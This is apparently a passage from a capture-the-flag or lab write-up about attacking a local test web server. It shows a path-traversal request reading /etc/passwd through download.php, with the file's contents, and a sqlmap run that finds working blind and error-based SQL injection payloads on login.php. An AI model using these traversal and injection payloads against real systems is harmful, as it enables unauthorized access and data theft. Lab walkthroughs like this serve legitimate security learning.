 ## Local file include

```
# curl 'http://192.168.93.173/download.php?item=../../../../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
systemd-timesync:x:999:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:997:995:systemd Resolver:/:/sbin/nologin
systemd-bus-proxy:x:996:994:systemd Bus Proxy:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
</div>
<div class="products-list"></div>
```

## SQL injection

I ran `uniscan` and is looks like the login page may be vulnerable to SQL injection

```
| [+] Vul [SQL-i] http://192.168.93.173/login.php
| Post data: &usermail=123'&password=123
```

Putting this into sqlmap like so

```
# sqlmap -u 'http://192.168.93.173/login.php' --data "usermail=admin@example.com&password=123" -p usermail
```

sqlmap discovers the vuln

```
sqlmap identified the following injection point(s) with a total of 375 HTTP(s) requests:
---
Parameter: usermail (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: usermail=admin@example.com' RLIKE (SELECT (CASE WHEN (6846=6846) THEN 0x61646d696e406578616d706c652e636f6d ELSE 0x28 END))-- jKeO&password=123

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: usermail=admin@example.com' AND (SELECT 2478 FROM(SELECT COUNT(*),CONCAT(0x71706a7171,(SELECT (ELT(2478=2478,1))),0x71716b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- xHQN&password=123
```